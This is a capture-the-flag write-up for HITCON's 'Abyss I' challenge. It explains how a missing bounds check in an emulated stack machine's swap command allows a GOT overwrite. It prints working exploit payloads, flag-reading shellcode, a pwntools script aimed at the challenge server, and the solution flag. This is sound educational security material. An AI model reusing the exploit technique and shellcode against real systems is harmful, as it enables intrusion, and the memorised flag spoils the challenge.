 # Abyss I
## Pwn 230

#### bigrick

From the directions, it looks like they wrote their own hypervisor and kernel on top of the userspace challenge. Checking the executable permissions showed modern protections, which made me unsure of the hint of "NX?"

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### RE

In the binary I see that `main` prints a line, reads some characters, to a global buffer, then calls `work` if reading was successful. So the real business is in work.

`Work` gets the `strlen` of our input buffer and stores the length on its stack. Then there's a big loop that seems to iterate over every character of input.

![work](img/work.png)

The first parsing step branches on some flag returned from `__ctype_b_loc()` which is a helper function to the `isalnum` and `isalpha` family. In this case, it looks like an inlined `isdigit` based on the branch to `fetch_int`. Indeed `fetch_int` parses a decimal number until a non digit is encountered.

![fetch_int](img/fetchint.png)

After `fetch_int` the value is sent to `push`. Push takes the value, calculates an offset based off of the `machine` global (renamed to `stack-ptr` here) and another global (renamed `stack` here), then writes the value there. The stack-ptr is incremented as well. This was the first indication to me that the user.elf program is an emulator of sorts.

The other side of `work` loop parses letters and symbols. Here is the letter parsing:

![letters](img/letters.png)

So letter parsing just takes the numerical value of lowercase letters starting with a = 0, b = 1 ... z = 25. That will be clear later.

The last part of the `work` loop is for symbol parsing. This stub passes the character to `commands` and if the return value is not NULL, it will call the function pointer returned.

![symbols](img/symbols.png)

`Commands` features a large jump table that returns function pointers based on the symbol passed, or NULL if the symbol doesn't map.

![commands](img/commands.png)

Among the commands were arithmetic operations, `pop_`, `swap_`, `store` and `fetch`, and two different `write`. It seems like this is definitely some kind of emulated stack machine. `store` and `fetch` take a value off the stack and access a uint32 array of size 26 in the data section. This must be for some registers a-z that are parsed as 0-26.

Cool! I had not pwned any emulators before, so this was very exciting! I had to find some way to use the emulated stack machine to leave it's confines and read and write the user.elf process memory.

### Breakout

It seems like the `pop` and `push` operations are properly bounds checking the emulated stack pointer. But the `swap_` command does not! It swaps the values at stack-ptr*-1* and stack-ptr*-2*. This is especially bad because the stack pointer is directly below the first item on the stack.

All I have to do is put a negative value on the stack, call `swap`, and now the stack pointer points outside our emulated stack! The payload for this looks something like `4294967270\`. Append that with a handful of '.' and this will leak out the .data section one %d at a time :)

### Payload

Leaking data alone does not help much, especially since I only have one input string to send. I needed to craft a program to overwrite the GOT. Fortunately there are plenty of operations to choose from. Since the stack machine operates on 32 bit values and the emulator is 64 bit, I had to consider carefully how to not clobber either dword of the GOT value I intended to change.

The GOT initially looks like this:
```
0x202018 int64_t (* const puts@GOT)
0x202020 int64_t (* const write@GOT)
0x202028 int64_t (* const strlen@GOT)
```

But to the stack machine it looks like this:
```
0x202018 int32_t (* const puts@GOT)   <-- lower dword
0x20201c int32_t (* const puts@GOT)   <-- upper dword
0x202020 int32_t (* const write@GOT)  <-- lower dword
0x202024 int32_t (* const write@GOT)  <-- upper dword
0x202028 int32_t (* const strlen@GOT) <-- lower dword
0x20202c int32_t (* const strlen@GOT) <-- upper dword
```

This is where I used the store to register ability. I clobbered the lower half of `strlen@GOT` (won't be called again anyway), and targeted `write@GOT` as my overwrite (I control when `write` is called because of `write_`).

My first successful (sort of) payload was:
```
10,4294967265\a:4294943308+a;,
  │          │ │          │ ││
  │          │ │          │ │╰─> 6. call write
  │          │ │          │ ╰─> 5. restore upper half of write
  │          │ │          ╰─> 4. add offset to libc magic gadget
  │          │ ╰─> 3. store upper half of write
  │          ╰─> 2. take over stack ptr
  ╰─> 1. resolve libc write
```
_Note: this only works with ./user.elf, not the challenge kernel & hypervisor_

I was pretty sad that didn't work in production :( Evidently the kernel did not implement the execv system call, or it was blocking the request. I was also stumped. It seemed very difficult to put together three similar calls to `open("flag", 0)`, `read()`, then `write` this way. Perhaps it could be done, but I took a break and was searching for similar ctf challenge writeups. I found [this writeup](https://david942j.blogspot.com/2018/09/write-up-tokyowesterns-ctf-2018.html) that the challenge author, david942j, recently did!

The key takeaway was that even though the user.elf specified NX (non executable pages), the kernel must implement it to take effect. I took a guess and made up some shellcode (with no NULLs), that I could jump to and test the theory. And it worked :)

My shellcode loader was:
```
4294967265\a:2107690+a;,
                │      ╰─> 2. call shellcode
                ╰─> 1. offset to shellcode from write@GOT.PLT
```

Shellcode, compile with `nasm -f bin sc.asm`
```
BITS 64
main:
        ; nop sled and buffer
        times 70 nop

        ; open("flag", 0, 0);
        mov eax, 0x67616c66
        push rax
        mov rdi, rsp
        xor rsi, rsi
        mov rax, rsi
        mov rdx, rax
        inc rax
        inc rax
        syscall

        ; read(fd, buf, 64);
        mov rdi, rax
        lea rsi, [rel main]
        xor rdx, rdx
        inc rdx
        shl rdx, 7
        xor rax, rax
        syscall

        ; write(1, buf, 64);
        xor rax, rax
        inc rax
        mov rdi, rax
        lea rsi, [rel main]
        mov rdx, rax
        shl rdx, 7
        syscall
```

Put all together with pwntools:
```{python}
#!/usr/bin/env python
from pwn import *

r = remote('35.200.23.198', 31733)
r.recvuntil('down.\n')

with open('sc', 'rb') as sc:
    sc = sc.read()

payload = '4294967265\\a:2107690+a;,'+sc
r.sendline(payload)
print r.recvall()
```

This yielded that sweet, sweet, flag: `hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}`

### Conclusion

Overall I had a ton of fun with this challenge, and I look forward to reading writeups of parts 2 and 3 from smart people who got that far :) Thanks to david942j for the great chal and HITCON for the fun ctf!
